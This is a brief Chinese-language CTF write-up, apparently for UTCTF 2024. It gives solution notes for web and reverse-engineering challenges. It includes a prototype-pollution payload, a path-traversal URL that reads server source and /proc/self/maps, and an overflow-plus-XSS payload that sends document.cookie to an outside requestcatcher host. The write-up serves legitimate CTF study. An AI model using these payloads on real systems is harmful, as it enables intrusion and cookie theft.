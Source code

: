 # web
### Beginner: Off-Brand Cookie Clicker
前端题,直接js找接口
### Schrödinger
zip软链接读取文件
`mklink /home/xxxx/flag.txt flag`

### Easy Mergers v0.1
一个创建公司(json)并允许使用merge合并,应该是原型链污染,没找到要污染的属性
payload
`{"attributes":["__proto__"],"values":[{"cmd":"whoami"}]}`
污染cmd属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240401194743.png)

### Home on the Range
主页只有一个 **Directory listing of www**
文件夹下有一个hello.html,访问只有一个hello
Server:BaseHTTP/0.6 Python/3.12.2

---
没想到真的是../路径穿越,偷懒使用浏览器url编码,还得是postman或者burp
读取服务器源码
`http://guppy.utctf.live:7884/../../server.py`
根据代码猜测会跟http range头有关
设置`bytes=100-500`可以读取指定文件的字节范围
读取当前进程的内存,并使用range获取指定范围
读取进程内存映射
`/proc/self/maps`
选择rw区域并脚本run

### Unsound
一个rust写的web页面,可以加密和解密数据,加密在前端,解密在后端且不返回解密得到的数据,前端还是wasm,用了wabt结果还反编译不了

---
1. the decrypt has a C-struct in it with a buffer for the decrypted message of 300bytes; if you overflow this, you'll overwrite the success-message.
2. payload to encrypt:
```
fill_buffer = 'A'*300
xss_payload = '''<img src=x onerror="fetch('https://matthias.requestcatcher.com/test?c=' + document.cookie,{ method:'GET'})" >'''
data_to_encrypt = fill_buffer + xss_payload
```
存在溢出,让内部服务器触发xss去带出cookie

3. Then decrypt the encrypted stuff and catch the fetch request somehow
 
xss triggers, because if you add the img-tag to the dom, it tries to load the img, fails and thus triggers the js
you'll receive 2 requests to your server; first is from your local machine, running the wasm; second one (roughly 12 seconds later - when I tested it) was the backend server requesting it


# reverse
### Beginner: Basic Reversing Problem
sym.l* 函数按顺序即可得到flag,但是没找到radare2脚本来一把梭出来
`afi @@ sym.l* ~name[1]`

### Fruit Deals
一个恶意的xlsm文件,应该是要分析恶意宏
`Alt+F11`打开宏文件


# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-01   19:42